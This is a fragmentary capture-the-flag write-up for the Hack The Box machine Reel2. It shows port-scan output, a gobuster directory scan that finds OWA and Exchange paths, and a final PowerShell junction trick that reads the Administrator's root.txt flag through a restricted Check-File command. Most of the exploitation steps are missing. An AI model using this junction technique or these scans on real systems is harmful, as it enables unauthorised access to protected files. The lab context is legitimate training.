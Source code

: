 ```
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.32
|_http-title: Welcome | Wallstant
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
## GOBUSTER
```
luka@kali:~$ gobuster dir -u https://reel2.htb.local -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://reel2.htb.local
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/01/28 08:29:32 Starting gobuster
===============================================================
/public (Status: 302)
/exchange (Status: 302)
/Public (Status: 302)
/rpc (Status: 401)
/owa (Status: 301)
```
# EXPLOITATION
## OWA
Let'S focus on OWA.
![picture 12](/assets/images/5949aad5c31309258406c4487f88d0f3f9437cb205fac1dd0b502469817b4f17.png)  


[10.10.10.210]: PS>$env:Path
[10.10.10.210]: PS>&{cmd /c mklink /J adm c:\Users\Administrator\Desktop}
[10.10.10.210]: PS>Check-File C:\ProgramData\adm\root.txt
